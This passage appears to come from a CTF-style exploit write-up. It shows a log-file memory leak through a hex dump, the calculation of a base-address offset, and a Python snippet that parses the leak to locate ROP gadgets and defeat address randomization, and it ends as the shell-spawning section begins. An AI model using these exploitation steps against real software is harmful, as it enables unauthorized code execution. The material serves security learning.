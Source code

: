 I had a plan to add  a few `%x` or `%p` tokens to the buffer that would print out contents of the stack, thus likely revealing some addresses. Amazingly, this isn't necessary at all. This function prints a ton of data to the log file without requiring any intervention and does not stop printing when it reaches a null character. If we perform this call and look at `ps_data.log`, we get the following:

```bash
xxd `ps_data.log`
```
```
...
000057d0: 6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
000057e0: 6161 6161 6168 0e17 f188 7f00 0061 6161  aaaaah.......aaa
000057f0: 6161 6161 61b0 0383 e4fe 7f00 008e 0700  aaaaa...........
00005800: 0000 0000 008e 0700 0000 0000 00b0 f682  ................
00005810: e4fe 7f00 0040 8c43 f188 7f00 008e 0700  .....@.C........
00005820: 0000 0000 00f3 e016 f188 7f00 0061 6161  .............aaa
00005830: 6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
00005840: 6161 6161 6100 0000 0000 0000 00a0 0383  aaaaa...........
00005850: e4fe 7f00 00b0 f682 e4fe 7f00 0000 0683  ................
00005860: e4fe 7f00 00b0 0383 e4fe 7f00 008e 0700  ................
00005870: 0000 0000 00a9 d41b f188 7f              ...........
```

Why does this work? I'm not entirely sure. I expected it to stop printing at the first null byte. If you know what's happening here please let me know!

You might notice that there are addresses in here. The address that ends with 0x68 (starting at the 'h' character in the example above) is 0x7f88f1170e68. The relocated base address can be found by looking at the base address in GDB, 0x7F88F1050000 in this case. The difference between these two values is 0x00120e68. In Ghidra you should be able to find 0x00120e68 and see that it points to a `mov qword ptr [r12 + 0x28],rax` instruction. 

We can't use GDB on the real process we need to exploit, so we will leak the address by jumping to the print function, then read the address from the log file, and then take `leaked_address - 0x00120e68` to get the base address for our ROP gadgets!

To parse this automatically we can do this:

```python
# open log and read leaked address
with open('ps_data.log', 'rb') as f:
    x = f.readlines()[-1]

print(bytes.hex(x))
addr_start = x.find(b'a' * 512 + b'h') + 512
addr_string = x[addr_start:addr_start+8]
addr = u64(addr_string)
base_addr = addr - 0x00120e68
print(hex(base_addr))
```

#### A Shell at Last

We've conquered the canary, sidestepped address randomization, and now we must develop a ROP-chain to execute code that will do something useful. If I were to do this over again, I would probably use a ROP-chain generator to spawn a shell and then manipulate the file descriptors for stdin and stdout to correspond to the network FDs like I heard some other people did. The solution I actually used is much less elegant. 
